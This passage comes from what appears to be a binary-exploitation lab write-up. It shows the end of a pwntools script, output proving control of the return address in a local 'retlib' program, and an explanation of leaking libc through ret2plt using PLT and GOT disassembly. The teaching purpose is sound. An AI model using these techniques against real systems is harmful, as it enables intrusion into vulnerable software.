 ```python
    comm.write(payload)

    p.interactive()

if __name__ == "__main__":
    main()
```

Demonstrating that it works:

```shell
$ python task1-skeleton.py
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process '/vagrant/assignment1/retlib': pid 6899
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
[*] Process '/vagrant/assignment1/retlib' stopped with exit code -11 (SIGSEGV)
    (pid 6899)
[*] Got EOF while sending in interactive
$ dmesg | tail -n 1
[54468.527728] retlib[6899]: segfault at deadbeef ip deadbeef sp bfc08070 error
15
```

## Leaking Libc Base

Next, an address into libc has to be leaked before the randomised libc base
address can be calculated. Once the base address is known, the address of any
function in libc can be derived and used in the return to libc ROP chain. To do
this, a technique called return to Procedure Linkage Table (ret2plt) is employed
to leak these addresses.

The Procedure Linkage Table is used in conjunction with the Global Offset Table
to implement dynamic linkage of shared libraries. For a full description of how
dynamic libraries work in ELF files, please take a look at the following link:
[https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html](https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html).

A function call in the PLT begins with a PLT stub. The `puts` stub has the
following disassembly. It implements the *lazy binding* behaviour by beginning
the stub with a redirection in the form of a `jmp *0x804a014`.

```shell
08048380 <puts@plt>:
 8048380:    ff 25 14 a0 04 08        jmp    *0x804a014
 8048386:    68 10 00 00 00           push   $0x10
 804838b:    e9 c0 ff ff ff           jmp    8048350 <_init+0x24>
```

The initial memory content of the `0x804a014` address is `0x08048386`, the
address of one instruction after the `jmp`.

```shell
gef➤  x/xw 0x804a014
0x804a014 <puts@got.plt>:    0x08048386
```
